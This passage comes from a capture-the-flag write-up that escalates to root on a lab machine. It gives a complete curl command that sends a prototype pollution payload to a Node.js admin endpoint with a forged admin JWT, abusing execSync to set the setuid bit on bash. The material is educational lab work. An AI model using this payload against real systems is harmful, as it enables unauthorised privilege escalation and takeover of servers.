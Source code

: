 ```json
      "/admin/messages/send": {
        "Methods": "POST",
        "Params": {
          "text": "message text"
        }
      }
    }
  }
}
```

Now, we need to construct a paylaod that would pollute the `exec` function that comes after. What we would want to do is first create a new 'shell' using `/proc/self/exe` which would spawn another thread for us to execute the command we want. The only difficulty here is fitting it into a single JSON object, but the payload is available at Hacktricks under the `execSync` exploit.

As such, we can construct this command:

{% code overflow="wrap" %}
```bash
curl http://127.0.0.1:3000/admin/messages/send -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY3MDM5MjcyMiwiZXhwIjoxNjcwMzk2MzIyfQ.Ry9ngHgkESmKPTU624I_p7rPSAKAky-B6H_Ddzk1duw" -H "content-type: application/json" -d '{"text":{"constructor":{"prototype":{"shell":"/proc/self/exe","argv0":"console.log(require(\"child_process\").execSync(\"chmod +s /usr/bin/bash\").toString())//","NODE_OPTIONS":"--require /proc/self/cmdline"}}}}'
```
{% endcode %}

This would call a child\_process to execute `chmod +s /usr/bin/bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (4) (2).png" alt=""><figcaption></figcaption></figure>

We are now root, and we can capture the root flag.
